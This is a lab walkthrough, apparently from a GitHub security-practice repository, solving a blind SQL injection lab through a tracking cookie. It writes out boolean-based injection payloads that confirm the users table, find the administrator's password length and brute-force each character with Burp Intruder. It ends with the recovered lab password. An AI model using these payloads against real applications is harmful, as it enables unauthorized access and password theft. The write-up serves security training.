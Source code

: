 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Solution:

Query made --

> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/195d1ca7-a2d7-4557-819e-e5c0a0e92a6c)

This how the session looks like where TrackingId and COOKIE-VALUE are shown and Welcome back message is also displyed.

TrackingID parameter is vulnerable. So it is vulnerablecan to blind SQL injection on trackingID parameter.

> If the Condition is true it will display the Welcome back message.

> SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/866926dc-2e61-41c0-864d-89cd3b4923a6)

> If the Condition is not true it will not  display the Welcome back message.

> SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/c6fbb63c-d5bc-4554-9107-2ece4033013a)

## Check Whether the users table is present -

> SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users LIMIT 1) = 'a 

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/aac48369-cc93-45f7-a339-9d6185e7c63b)
It display the Welcome back message. So user table is present.

## Check Whether the username administrator is present in users table -

> Here table name is users

> SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator')='a

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/60775fab-bfdc-461a-b9f9-fb6b28bd8908)
It display the Welcome back message. So username administrator is present in the user table.

## Check the length password of administrator-

> SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>15))='a

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/412ae11b-7f48-4185-aa63-91d6c5f790ea)

Here 15 indicates the length of the password and it returns the response as true means the length of the password is greater than 15 as it displays the Welcome back message.

> Then changed the length from 15 to 25 

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/e3f56ac8-39e1-4ae2-9aa3-8711d8c5b86f)

It returns the response as false means the length of the password is less than 25 as it didn't display the Welcome back message.So the password length must be in between 15-25.

To find the length of the password send query to Intruder then and add the password length part [> 15] and select attack type as SNIPER.

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/19209855-8c3f-4165-ad20-24e6f228e454)

Then go to payload select payload type as numbers after that set from 15 to 25.

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/4fac815f-a16d-4d17-b708-0db7d5267fa8)

Then go to Grep-Match in setting and type Welcome back and start attack.

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/4a5a6efa-5ae2-4c78-ae79-e15e622bb66d)

After brute-force we understood that 20 is length of the password because while checking if length(password) > 20 it FAILS it didn't display the Welcome back message.

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/f3543470-90e9-418e-869f-311da328e62d)

## Finding the 20 character length password by Brute force -

> SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' )='a

> we will able get the first character of the password that is u

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/25aa5f40-1120-453f-8c9a-ef98c05a316e)

> To get all character of the password together we need to set the attack type as cluster bomb and set to payloads one is for the position of the character and other one normal string payload and select 1st payload set as number [range 1-20] to determine the position of the character and other payload as brute force [min & max length = 1] to determine the character. And then go to Grep-Match in setting and type Welcome back and start attack.

> SELECT trackingId FROM some Table WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,$1$,1) FROM users WHERE username='administrator' )='$a$'--

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/9d551c2f-787a-4f31-a86d-e43b74ff061b)

Now, we have received 20 different payloads that provide us with the 'Welcome back' option

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/415e7b70-712c-40a9-910a-b61e9d2af0d5)

Arrange the payload2 characters according to the payload1 numbers in the correct order .

> Password = uc5e5ot47gtajjumawrg

Successfully logged in administrator.

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/00ffa0c0-e187-401e-b14e-0b756520bcca)

